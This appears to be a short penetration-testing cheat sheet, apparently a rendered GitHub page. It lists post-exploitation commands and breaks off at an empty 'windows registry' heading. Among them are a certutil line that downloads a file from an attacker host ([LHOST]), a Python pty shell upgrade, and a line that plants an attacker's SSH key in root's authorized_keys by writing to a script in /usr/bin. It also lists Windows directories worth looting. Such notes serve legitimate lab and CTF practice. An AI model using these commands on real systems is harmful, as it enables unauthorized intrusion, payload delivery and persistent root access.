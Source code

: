 # cmd.exe
certutil -urlcache -f http://[LHOST]/file file

# Simple HTTPServer
```
python -m SimpleHTTPServer
```

```
python3 -m http.server
```

# terminal

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# ssh
```
chmod 600 key
```

```
ssh -i id_rsa username@[RHOST]
```

```
echo "echo ssh-rsa YOURPUBID_RSAKEY root@kali >> /root/.ssh/authorized_keys" > /usr/bin/script.sh
```

# Windows direcutory
```
C:\Windows\TEMP
```

```
C:\Users\
```

```
C:\Users\Administrator\Desktop
```

```
C:\Documents and Settings\Administrator
```

# windows registry
